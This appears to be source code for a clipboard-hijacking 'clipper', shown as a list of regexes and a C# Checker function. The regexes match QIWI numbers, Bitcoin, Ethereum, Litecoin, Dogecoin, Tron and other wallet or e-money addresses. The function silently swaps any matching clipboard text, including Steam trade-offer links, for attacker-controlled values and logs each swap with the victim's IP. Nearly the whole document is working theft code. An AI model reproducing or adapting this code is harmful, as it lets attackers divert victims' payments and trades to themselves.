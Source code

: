 Regex regex = new Regex("^((8|\\+7|\\+380|\\+375|\\+373)[\\- ]?)?(\\(?\\d{3}\\)?[\\- ]?)?[\\d\\- ]{7,10}$");
Regex regex2 = new Regex("(^(1|3)(?=.*[0-9])(?=.*[a-zA-Z])[\\da-zA-Z]{27,34}?[\\d\\- ])|(^(1|3)(?=.*[0-9])(?=.*[a-zA-Z])[\\da-zA-Z]{27,34})$");
Regex regex3 = new Regex("(^L[A-Za-z0-9]{32,34}?[\\d\\- ])|(^L[A-Za-z0-9]{32,34})$");
Regex regex4 = new Regex("(^q[A-Za-z0-9\\:]{32,54}?[\\d\\- ])|(^q[A-Za-z0-9\\:]{32,54})$");
Regex regex5 = new Regex("^(P|p){1}[0-9]?[\\d\\- ]{7,15}|.+@.+\\..+$");
Regex regex6 = new Regex("(^0x[A-Za-z0-9]{40,40}?[\\d\\- ])|(^0x[A-Za-z0-9]{40,40})$");
Regex regex7 = new Regex("(^X[A-Za-z0-9]{32,34}?[\\d\\- ])|(^X[A-Za-z0-9]{32,34})$");
Regex regex8 = new Regex("^41001[0-9]?[\\d\\- ]{7,11}$");
Regex regex9 = new Regex("^R[0-9]?[\\d\\- ]{12,13}$");
Regex regex10 = new Regex("^Z[0-9]?[\\d\\- ]{12,13}$");
Regex regex11 = new Regex("(^(GD|GC)[A-Z0-9]{54,56}?[\\d\\- ])|(^(GD|GC)[A-Z0-9]{54,56})$");
Regex regex12 = new Regex("(^A[A-Za-z0-9]{32,34}?[\\d\\- ])|(^A[A-Za-z0-9]{32,34})$");
Regex regex13 = new Regex("(^t[A-Za-z0-9]{32,36}?[\\d\\- ])|(^t[A-Za-z0-9]{32,36})$");
Regex regex14 = new Regex("(^r[A-Za-z0-9]{32,34}?[\\d\\- ])|(^r[A-Za-z0-9]{32,34})$");
Regex regex15 = new Regex("(^G[A-Za-z0-9]{32,35}?[\\d\\- ])|(^G[A-Za-z0-9]{32,35})$");
Regex regex16 = new Regex("(^D[A-Za-z0-9]{32,35}?[\\d\\- ])|(^D[A-Za-z0-9]{32,35})$");
Regex regex17 = new Regex("(^(T[A-Z])[A-Za-z0-9]{32,35}?[\\d\\- ])|(^(T[A-Z])[A-Za-z0-9]{32,35})$");


regex = QIWI
regex2 = BTC
regex3 = LTC
regex4 = BCH
regex5 = PAYEER
regex6 = Ethereum
regex7 = DASH
regex8 = YANDEX_MONEY
regex9 = WMR
regex10 = WMZ
regex11 = XLM
regex12 = NEO
regex13 = ZCASH
regex14 = XPR
regex15 = BTG
regex16 = DOGE
regex17 = TRX

C# Regex Match Function:

private static void Checker(Program.Clipform format, object data)
{
	try
	{
		string text = Clipboard.GetText();
		Regex regex = new Regex("^((8|\\+7|\\+380|\\+375|\\+373)[\\- ]?)?(\\(?\\d{3}\\)?[\\- ]?)?[\\d\\- ]{7,10}$");
		Regex regex2 = new Regex("(^(1|3)(?=.*[0-9])(?=.*[a-zA-Z])[\\da-zA-Z]{27,34}?[\\d\\- ])|(^(1|3)(?=.*[0-9])(?=.*[a-zA-Z])[\\da-zA-Z]{27,34})$");
		Regex regex3 = new Regex("(^L[A-Za-z0-9]{32,34}?[\\d\\- ])|(^L[A-Za-z0-9]{32,34})$");
		Regex regex4 = new Regex("(^q[A-Za-z0-9\\:]{32,54}?[\\d\\- ])|(^q[A-Za-z0-9\\:]{32,54})$");
		Regex regex5 = new Regex("^(P|p){1}[0-9]?[\\d\\- ]{7,15}|.+@.+\\..+$");
		Regex regex6 = new Regex("(^0x[A-Za-z0-9]{40,40}?[\\d\\- ])|(^0x[A-Za-z0-9]{40,40})$");
		Regex regex7 = new Regex("(^X[A-Za-z0-9]{32,34}?[\\d\\- ])|(^X[A-Za-z0-9]{32,34})$");
		Regex regex8 = new Regex("^41001[0-9]?[\\d\\- ]{7,11}$");
		Regex regex9 = new Regex("^R[0-9]?[\\d\\- ]{12,13}$");
		Regex regex10 = new Regex("^Z[0-9]?[\\d\\- ]{12,13}$");
		Regex regex11 = new Regex("(^(GD|GC)[A-Z0-9]{54,56}?[\\d\\- ])|(^(GD|GC)[A-Z0-9]{54,56})$");
		Regex regex12 = new Regex("(^A[A-Za-z0-9]{32,34}?[\\d\\- ])|(^A[A-Za-z0-9]{32,34})$");
		Regex regex13 = new Regex("(^t[A-Za-z0-9]{32,36}?[\\d\\- ])|(^t[A-Za-z0-9]{32,36})$");
		Regex regex14 = new Regex("(^r[A-Za-z0-9]{32,34}?[\\d\\- ])|(^r[A-Za-z0-9]{32,34})$");
		Regex regex15 = new Regex("(^G[A-Za-z0-9]{32,35}?[\\d\\- ])|(^G[A-Za-z0-9]{32,35})$");
		Regex regex16 = new Regex("(^D[A-Za-z0-9]{32,35}?[\\d\\- ])|(^D[A-Za-z0-9]{32,35})$");
		Regex regex17 = new Regex("(^(T[A-Z])[A-Za-z0-9]{32,35}?[\\d\\- ])|(^(T[A-Z])[A-Za-z0-9]{32,35})$");
		if (Program.QIWI != null && regex.IsMatch(text))
		{
			Clipboard.SetText(Program.QIWI);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.BTC != null && regex2.IsMatch(text))
		{
			Clipboard.SetText(Program.BTC);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.LTC != null && regex3.IsMatch(text))
		{
			Clipboard.SetText(Program.LTC);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.BCH != null && regex4.IsMatch(text))
		{
			Clipboard.SetText(Program.BCH);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.PAY != null && (text.StartsWith("P") || (text.StartsWith("p") && text.Length == 9 && regex5.IsMatch(text))))
		{
			Clipboard.SetText(Program.PAY);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.ETHEREUM != null && regex6.IsMatch(text))
		{
			Clipboard.SetText(Program.ETHEREUM);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.DASH != null && regex7.IsMatch(text))
		{
			Clipboard.SetText(Program.DASH);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.YANDEX_MONEY != null && regex8.IsMatch(text))
		{
			Clipboard.SetText(Program.YANDEX_MONEY);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.WMR != null && regex9.IsMatch(text))
		{
			Clipboard.SetText(Program.WMR);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.WMZ != null && regex10.IsMatch(text))
		{
			Clipboard.SetText(Program.WMZ);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.XLM != null && regex11.IsMatch(text))
		{
			Clipboard.SetText(Program.XLM);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.NEO != null && regex12.IsMatch(text))
		{
			Clipboard.SetText(Program.NEO);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.ZCASH != null && regex13.IsMatch(text))
		{
			Clipboard.SetText(Program.ZCASH);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.XPR != null && regex14.IsMatch(text))
		{
			Clipboard.SetText(Program.XPR);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.BTG != null && regex15.IsMatch(text))
		{
			Clipboard.SetText(Program.BTG);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.DOGE != null && regex16.IsMatch(text))
		{
			Clipboard.SetText(Program.DOGE);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.TRX != null && regex17.IsMatch(text))
		{
			Clipboard.SetText(Program.TRX);
			Program.Logger(Program.IP2, "Replace");
		}
		if (Program.STEAMTRADE_LINK != null && text.StartsWith("https://steamcommunity.com/tradeoffer/new/?partner"))
		{
			Clipboard.SetText(Program.STEAMTRADE_LINK);
			Program.Logger(Program.IP2, "Replace");
		}
	}
	catch
	{
	}
}
